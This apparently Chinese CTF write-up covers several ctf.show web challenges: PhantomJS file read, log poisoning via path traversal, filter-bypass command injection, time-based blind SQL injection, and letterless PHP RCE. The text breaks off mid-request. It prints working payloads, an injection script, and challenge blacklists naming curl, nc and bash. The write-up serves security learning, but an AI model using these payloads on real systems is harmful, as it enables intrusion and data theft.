可参考CVE-2019-17221[PhantomJS任意文件读取](https://web.archive.org/web/20191220171022/https://www.darkmatter.ae/blogs/breaching-the-perimeter-phantomjs-arbitrary-file-read/)



这个的话是一个从远程加载图片进行下载的题目，这里的话我的思路就是用服务器创建html文件，然后通过download去访问我们的html文件，达到一个攻击的效果

```html
<html>
 	<head>
 		<body>
			 <script>
 			x=new XMLHttpRequest;
 			x.onload=function(){
 			document.write(this.responseText)
 			};
 			x.open("GET","file:///flag");
 			x.send();
 			</script>
 		</body>
 	</head>
</html>
```



然后我们访问这个1.html，就会进行下载图片，图片中就会带出我们的flag

我们来解释一下那个html文件中的script片段

- `new XMLHttpRequest;` 创建一个新的 XMLHttpRequest 对象 `x`。这个对象用于在客户端与服务器之间进行异步请求。
- `x.onload=function(){ document.write(this.responseText) };` 定义了当请求完成后要执行的函数。在这个函数中，`this.responseText` 包含了从服务器返回的响应内容。`document.write()` 方法会将该内容写入当前文档。
- `x.open("GET","file:///flag");` 准备一个 HTTP GET 请求，目标是一个本地文件（`file:///flag`）。这是一个文件系统的路径，通常用于尝试从本地读取一个文件。
- `x.send();` 发送请求。

所以这里可以看到其实我们的flag是写入了这个下载的图片中的，也就是我们的响应内容中，假如没有执行file://flag的话，就会只有一个空图片



而如果我们进行了正确的攻击后就会



### PhantomJs 任意文件读取

PhantomJS 使用内部模块 ：，打开、关闭、呈现和执行网页上的多个操作，该模块存在任意文件读取漏洞。该漏洞存在于模块的函数中，该函数加载指定的 URL 并调用给定的回调。打开 HTML 文件时，攻击者可以提供特制的文件内容，从而允许读取文件系统上的任意文件。该漏洞通过使用作为函数回调来演示，从而生成目标文件的 PDF 或图像。 `webpage` `page.open()` `webpage` `page.render()`

```
var webPage = require ( '网页' ); 
var page = webPage.create();
```

上述 JavaScript 代码初始化并创建一个页面对象，可用于执行进一步的操作，例如加载网页。

在下面的代码片段中，该函数负责打开和解析提供的 URL，并使用该函数生成 PNG 图像。 `page.open()` `page.render()`

此外， PhantomJS 还会在内部调用检查所提供 URL 中的方案。如果提供的方案为空，则将其设置为给定 URL 的默认方案。

从下面显示的代码中可以看出这一点，这样做是为了访问本地存储的 HTML/CSS 文件。 `page.open()` `WebPage::openUrl()` `file://`

```js
文件：phantom/phantomjs/src/webpage.cpp 
954：//如果方案为空，则假定为本地文件 
955：if (url.scheme().isEmpty()) { 
956：url.setPath(QFileInfo(url.toString()).absoluteFilePath().prepend( "/" )); 
957：url.setScheme( "file" ); 
958：}
```

因此，使用页面渲染代码片段将生成一个空白的 png 图像，因为它不会解析提供的 URL（该 URL 已设置为方案）。而使用带方案的将生成包含提供的 URL 内容的渲染图像。 `page.open('www.google.com')` `file://` `page.open('https://www.google.com')` `https://`

所以这就是为什么我们攻击失败的时候也会返回一张图片但是图片是空的，再结合我们的exp可以想到这段payload的意思了，其实我们确实是访问了一张空图片，但是因为执行了我们的html文件，这个代码中会把flag写入我们的图片中

PhantomJS 还使用一个开关，该开关需要一个布尔值，默认情况下设置为。该开关启用 PhantomJS 中的网络安全功能，并禁止触发跨域 XHR 请求。 `--web-security` `True`

由于跨域 XHR 限制，本地存储的 HTML 文件不允许触发对任意外部实体的请求，并且由于实现原因，除非在标头中明确指定，否则也无法从跨域实体读取响应。 `XHR` `Same Origin Policy`

当经过PhantomJS解析后，可以通过发出XHR请求来读取其中的内容。

## ALL_INFO_U_WANT

### #日志注入

是一个玩魔方的游戏


扫目录

```
[11:36:56] Scanning:
[11:37:20] 200 -   441B - /index.php.bak
[11:37:22] 301 -   169B - /media  ->  http://b87fcdf0-43c4-411b-9727-01cb51888a31.challenge.ctf.show/media/
[11:37:22] 403 -   555B - /media/
[11:37:28] 301 -   169B - /scripts  ->  http://b87fcdf0-43c4-411b-9727-01cb51888a31.challenge.ctf.show/scripts/
[11:37:28] 403 -   555B - /scripts/
[11:37:30] 301 -   169B - /styles  ->  http://b87fcdf0-43c4-411b-9727-01cb51888a31.challenge.ctf.show/styles/
```

发现一个200的/index.php.bak文件，进行访问下载

```php

visit all_info_u_want.php and you will get all information you want

= =Thinking that it may be difficult, i decided to show you the source code:


<?php
error_reporting(0);

//give you all information you want
if (isset($_GET['all_info_i_want'])) {
    phpinfo();
}

if (isset($_GET['file'])) {
    $file = "/var/www/html/" . $_GET['file'];
    //really baby include
    include($file);
}

?>


really really really baby challenge right? 
```

访问all_info_u_want.php，传入all_info_i_want参数就得到了当前php版本的配置信息了，

```
/all_info_u_want.php?all_info_i_want=1
```



但是我们的利用点还是include($file)，不过这道题说实真的太仁慈了，这里直接利用日志注入就可以了

这里可以看到是开启了日志记录的功能的，那我们尝试包含一下日志文件

报错看服务器版本nginx/1.20.1

那我们访问一下

```
?file=../../../var/log/nginx/access.log
```

目录穿越后就可以看到我们的日志文件了

抓包，在UA头插入恶意命令或者一句话木马，然后就可以进行rce了

发现一个假的flag，提示flag在etc文件，让我们自己去找，这里的话可以一个个找也可以直接在终端进行命令

```
find /etc -name “*” | xargs grep “ctfshow{
```

正常来说这个命令就是用来找包含flag字符串的文件的，但是好像蚁剑里面得把`-name “*”`去掉，没搞明白原因

我说怎么查不出来flag，原来flag是ctfshow开头的

```
find /etc | xargs grep "ctfshow{"
```



成功拿到flag

## WUSTCTF\_朴实无华_Revenge

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

function isPalindrome($str){
    $len=strlen($str);
    $l=1;
    $k=intval($len/2)+1;
    for($j=0;$j<$k;$j++)
        if (substr($str,$j,1)!=substr($str,$len-$j-1,1)) {
            $l=0;
            break;
        }
    if ($l==1) return true;
    else return false;
}

//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    $numPositve = intval($num);
    $numReverse = intval(strrev($num));
    if (preg_match('/[^0-9.-]/', $num)) {
        die("非洲欢迎你1");
    }
    if ($numPositve <= -999999999999999999 || $numPositve >= 999999999999999999) { //在64位系统中 intval()的上限不是2147483647 省省吧
        die("非洲欢迎你2");
    }
    if( $numPositve === $numReverse && !isPalindrome($num) ){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
    $md5=$_GET['md5'];
    if ($md5==md5(md5($md5)))
        echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
    else
        die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("more", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tail", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("less", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("head", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tac", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("$", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("sort", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("curl", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("nc", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("bash", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("php", "36dCTFShow", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
去非洲吧
```

先看level 1

### level 1

```php
if (isset($_GET['num'])){
    $num = $_GET['num'];
    $numPositve = intval($num);
    $numReverse = intval(strrev($num));
    if (preg_match('/[^0-9.-]/', $num)) {
        die("非洲欢迎你1");
    }
    if ($numPositve <= -999999999999999999 || $numPositve >= 999999999999999999) { //在64位系统中 intval()的上限不是2147483647 省省吧
        die("非洲欢迎你2");
    }
    if( $numPositve === $numReverse && !isPalindrome($num) ){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
```

试了一下八进制也绕不了，num进入isPalindrome的时候是八进制转化成十进制的数

本地测了一下浮点数可以绕，加个0就可以绕过函数的检查了

```php
<?php
$num = 1.10;
$numPositve = intval($num);
$numReverse = intval(strrev($num));
echo $numPositve;
echo $numReverse;
if ($numPositve===$numReverse){
    echo 'yes';
}
//11yes
```

但是我发现我的php对传入的num=1.10在传入isPalindrome的时候会变成1.1，但是题目中不会

payload

```
 -0, 0- , 1.10 , 0. , .0 ,0.00
```

### level 2

```php
<?php
if (isset($_GET['md5'])){
    $md5=$_GET['md5'];
    if ($md5==md5(md5($md5)))
        echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
    else
        die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}
```

双重md5弱比较绕过，直接爆破就行

```php
import hashlib

for i in range(0,1000000000000):
    data = "0e"+str(i)
    md5 = hashlib.md5(data.encode('utf-8')).hexdigest()
    md52 = hashlib.md5(str(md5).encode('utf-8')).hexdigest()
    if md52[0:2] == '0e' and md52[2:].isnumeric():
        print(data+": "+md52)
```

```
&md5=0e1138100474
```

### level 3

```php
//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("more", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tail", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("less", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("head", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tac", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("$", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("sort", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("curl", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("nc", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("bash", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("php", "36dCTFShow", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
```

空格过滤拿%09去绕过

```
get_flag=ls%09/
get_flag=nl%09/*
```

之前做过一个nl的特性，直接把根目录下的flag的内容爆出来了



## WUSTCTF\_朴实无华_Revenge_Revenge

挨个看

### level 1

```php
function isPalindrome($str){
    $len=strlen($str);
    $l=1;
    $k=intval($len/2)+1;
    for($j=0;$j<$k;$j++)
        if (substr($str,$j,1)!=substr($str,$len-$j-1,1)) {
            $l=0;
            break;
        }
    if ($l==1) return true;
    else return false;
}
//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    $numPositve = intval($num);
    $numReverse = intval(strrev($num));
    if (preg_match('/[^0-9.]/', $num)) {
        die("非洲欢迎你1");
    } else {
        if ( (preg_match_all("/\./", $num) > 1) || (preg_match_all("/\-/", $num) > 1) || (preg_match_all("/\-/", $num)==1 && !preg_match('/^[-]/', $num))) {
            die("没有这样的数");
        }
    }
    if ($num != $numPositve) {
        die('最开始上题时候忘写了这个，导致这level 1变成了弱智，怪不得这么多人solve');
    }

    if ($numPositve <= -999999999999999999 || $numPositve >= 999999999999999999) { //在64位系统中 intval()的上限不是2147483647 省省吧
        die("非洲欢迎你2");
    }
    if( $numPositve === $numReverse && !isPalindrome($num) ){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
```

这次不能用-号了，并且转化成整数后的数要等于原数据，那就用0.00吧

```
?num=0.00
```

### level 2

没啥变化，之前的也可以打

```
&md5=0e1138100474
```

### level 3

```php
//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("more", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tail", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("less", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("head", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tac", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("sort", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("nl", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("$", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("curl", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("bash", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("nc", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("php", "36dCTFShow", $get_flag);
        if (preg_match("/['\*\"[?]/", $get_flag)) {
            die('非预期修复*2');
        }
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
```

过滤了之前nl的做法，那我们反斜杠绕过关键字就行

```
&get_flag=ta\c%09flag.ph\p
```

## Login_Only_For_36D

### #时间盲注



登录界面，我们先输入两个1看看



试一下admin'和1，回显hacker，应该是`'`单引号被过滤了，那就测试一下，发现空格，等于号，and，or，ascii，substr，select，union都被过滤了，sleep，ord，#，if没被过滤，那我们考虑一下时间盲注

猜测一下查询语句

```
查询语句
<!-- if (!preg_match('/admin/', $uname)) die; -->
<!-- select * from 36d_user where username='$uname' and password='$passwd'; -->
```

过滤了引号，但是还有注释符可用，可以用\将单引号转义

payload

```
username=admin\&password=or(sleep(5))#
```

`admin\`把单引号注释掉让后面$passwd逃逸出去，然后可以发现延迟了5s，确认存在时间盲注，那我们上脚本，因为我们知道了账号是admin，所以我们打password就可以了

```python
import requests
import time
import datetime


url = "http://fcc116b3-6180-4c33-8def-a29981cbe059.challenge.ctf.show/index.php"

dict = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

result = ""
for i in range(0,100):
    for char in dict:
        data={
            "username" : "admin\\",
            "password" : ""
        }
        payload = 'or/**/if((password/**/regexp/**/binary/**/"^{}"),sleep(5),1)#'.format(result+char)
        data['password'] = payload
        time1 = datetime.datetime.now()
        response = requests.post(url, data=data)
        time2 = datetime.datetime.now()
        sec = (time2 - time1).seconds
        if sec >= 5:#超时时间为5秒
            result += char
            print(result)
            break

```

解释一下payload哈

### regexp binary正则匹配

空格用`/**/`去绕过，然后`password regexp binary "^{}"` 是一个正则表达式匹配操作，它尝试匹配数据库中的 password 字段的值是否与指定的模式 `^{}(任意字符)` 匹配。



这个就是我们的password

## 你取吧

### #自增无字母RCE

代码审计题目

```php
<?php
error_reporting(0);
show_source(__FILE__);
$hint=file_get_contents('php://filter/read=convert.base64-encode/resource=hhh.php');
$code=$_REQUEST['code'];
$_=array('a','b','c','d','e','f','g','h','i','j','k','m','n','l','o','p','q','r','s','t','u','v','w','x','y','z','\~','\^');
$blacklist = array_merge($_);
foreach ($blacklist as $blacklisted) {
    if (preg_match ('/' . $blacklisted . '/im', $code)) {
        die('nonono');
    }
}
eval("echo($code);");
?>
```

无字母无数字rce，这里把取反和异或符号都去掉了，显而易见这里可以用自增去进行rce

那就写呗

```php
<?php
$_=[];
$_=@"$_";
$_=$_['!'=='@'];
$___=$_;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$_=$$____;
$___($_[_]);
echo $_."\n";
echo $____."\n";
/*ASSERT
_POST
$_POST
*/
```

也可以用`$_`数组进行变量拼接

```
?code=`$_[12]$_[13] /*`  --> `nl /*`
?code=`$_[12]$_[13] /$_[5]$_[13]$_[0]$_[6]`  --> `nl /flag`
?code=1);$__=$_[18].$_[24].$_[18].$_[19].$_[4].$_[11];$__("$_[12]$_[13] /$_[5]$_[13]$_[0]$_[6]");(1  --> 1);system("nl /flag");(1
```

## 你没见过的注入

### #finfo文件注入

访问robots.txt拿到/pwdreset.php，重置密码后登录admin账户

文件上传

```
POST /upload.php HTTP/1.1
Host: 64a7c934-f07a-4c12-b004-51026198fba1.challenge.ctf.show
Connection: keep-alive
Content-Length: 297
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://64a7c934-f07a-4c12-b004-51026198fba1.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFoKgAPnn4CStanW0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64a7c934-f07a-4c12-b004-51026198fba1.challenge.ctf.show/main.php
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
